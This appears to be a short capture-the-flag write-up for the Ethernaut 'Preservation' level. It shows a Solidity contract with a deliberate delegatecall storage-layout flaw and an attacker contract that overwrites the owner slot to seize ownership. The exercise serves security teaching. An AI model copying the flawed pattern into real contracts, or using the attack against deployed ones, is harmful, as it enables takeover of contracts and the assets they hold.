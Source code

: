 # Level 16 - Preservation

### Objective

The objective of this level is as follows:

1. This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.
2. The goal of this level is for you to claim ownership of the instance you are given.

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress;
    timeZone2Library = _timeZone2LibraryAddress;
    owner = msg.sender;
  }

  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp
  uint storedTime;

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

### Solution

```
pragma solidity ^0.6.5;

contract attackPreservation {
    address slot0;
    address slot1;
    address slot2;

 function setTime(uint _time) public {
    slot2 = msg.sender;
  }
}
```

Done!
